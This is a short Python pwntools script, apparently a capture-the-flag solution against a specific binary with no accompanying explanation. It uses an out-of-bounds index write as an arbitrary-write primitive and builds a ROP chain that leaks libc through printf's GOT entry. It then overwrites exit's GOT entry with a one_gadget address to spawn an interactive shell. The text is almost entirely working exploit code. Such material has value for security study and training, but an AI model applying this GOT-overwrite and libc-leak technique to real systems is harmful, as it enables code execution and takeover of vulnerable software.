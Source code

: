 ```python

def overwrite(index, value):
    conn.sendlineafter(b'index: ', str(index).encode())
    conn.sendlineafter(b'value: ', str(value).encode())


def AAW(addr, data):
    overwrite(6, addr)
    overwrite(0, data)


## size = 5
conn.sendlineafter(b'size: ', b'5')

## size = 10000
overwrite(4, 10000)

## ROP gadget
exit_got = 0x404038
printf_got = 0x404020
printf_plt =  0x401090
main = 0x4011bb
pop_rdi_ret = 0x4013e3

## ROP chain
overwrite(0, pop_rdi_ret)
overwrite(1, printf_got)
overwrite(2, printf_plt)
overwrite(3, main)

## ignite ROP chain
AAW(exit_got, pop_rdi_ret)
conn.sendlineafter(b'index: ', b'-1')

## libc leak
printf_offset = 0x61c90
printf_libc = unpack(conn.recv(6), 'all')
libc_base = printf_libc - printf_offset
print('libc_base = 0x{:0x}'.format(libc_base))

## size = 5
conn.sendlineafter(b'size: ', b'5')

## size = 10000
overwrite(4, 10000)

## jmp one_gadget
# one_gadget_offset = 0xe3afe
one_gadget_offset = 0xe3b01
one_gadget_libc = libc_base+one_gadget_offset

AAW(exit_got, one_gadget_libc)
conn.sendlineafter(b'index: ', b'-1')


conn.interactive()
```

